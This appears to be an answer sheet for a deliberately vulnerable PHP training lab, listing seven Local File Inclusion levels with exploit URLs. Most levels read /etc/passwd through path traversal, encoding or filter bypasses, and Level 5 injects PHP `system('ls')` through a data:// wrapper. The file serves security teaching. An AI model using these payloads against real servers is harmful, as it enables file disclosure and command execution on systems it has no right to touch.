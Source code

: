 ## Level 1

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_1.php?file=/etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. 

## Level 2

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_2.php?file=...//index`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The string replacement here is unsufficient because you can still change directories.

## Level 3

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_3.php?file=../../../etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. We can still change directories.


## Level 4

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_4.php?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The urldecode() call is risky and should not be called with $\_GET or $\_REQUEST (see [PHP documentation](https://www.php.net/manual/fr/function.urldecode.php) for details).

## Level 5

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_5.php?file=data://text/plain;charset=utf-8,<?php system('ls');//index`

**Impact (with allow_url_include=On):** Execute arbitrary system commands on HTTP server. 


## Level 6

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_6.php?file=./uploads_eede.php/../../../../../../../etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. We can still change directories.


## Level 7

**Vulnerability:** Local File Inclusion

**Exploit:** `/Vulnerable_code/PHP/LFI/level_7.php?file=/.pdf/../etc/passwd`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server. The use of '==' is incorrect, it should be '===' or '!==' when using strpos() (see [PHP documentation](https://www.php.net/manual/en/function.strpos.php) for details).

